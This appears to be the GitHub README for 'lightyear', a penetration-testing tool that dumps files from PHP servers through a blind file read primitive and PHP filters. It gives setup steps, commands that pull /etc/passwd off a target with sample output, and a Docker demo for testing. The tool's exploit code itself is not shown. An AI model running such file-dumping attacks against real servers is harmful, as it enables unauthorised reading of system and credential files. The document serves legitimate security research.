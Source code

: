 # lightyear

A tool to dump files in tedious (blind) conditions using PHP filters, by [cfreal](https://twitter.com/cfreal_). It can be used to dump any file using a blind file read primitive in PHP, such as:

```php
get_image_size($_GET['image']);
```

# Usage

## Setup

The following dependencies are required to build the XML library (lxml).

```bash
sudo apt update
sudo apt-get install -y libxml2-dev libxslt-dev
```

```bash
$ git clone https://github.com/ambionics/lightyear
$ cd lightyear
$ pip install -r requirements.txt
```

## Running

```bash
$ code remote.py # edit Remote.oracle
$ ./lightyear.py test # test that your implementation works
$ ./lightyear.py /etc/passwd # dump a file!
```

To use, implement the `Remote.oracle()` method, and then test that it works properly by running `./lightyear.py test`.

## Resuming

If you interrupt and then restart a dump with the same destination file, the dump will resume.

```bash
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:58
[-] Execution interrupted (Ctrl-C) <----- PRESSED CTRL-C
[+] Dumped /etc/passwd to /tmp/z (got 198 bytes)
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
[!] File exists, resuming dump at digit #265
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
>=
[+] Dumped /etc/passwd to /tmp/passwd.txt (got 840 bytes)
```


# Testing

A docker file is available in `demo/`. It provides a very simple Apache+PHP environment allowing you to test the tool.

```
$ docker build -t lightyear-demo ./demo
$ docker run -d --name lightyear-demo --rm -p 8000:80 lightyear-demo
$ ./lightyear.py /etc/passwd
```

# Improvements

- Concurrency
- Improve jump caching to truly reach minimum size and compute faster
- Combine with [wrapwrap](https://github.com/ambionics/wrapwrap)

# References

- [Blogpost describing the tool](https://www.ambionics.io/blog/lightyear-file-dump)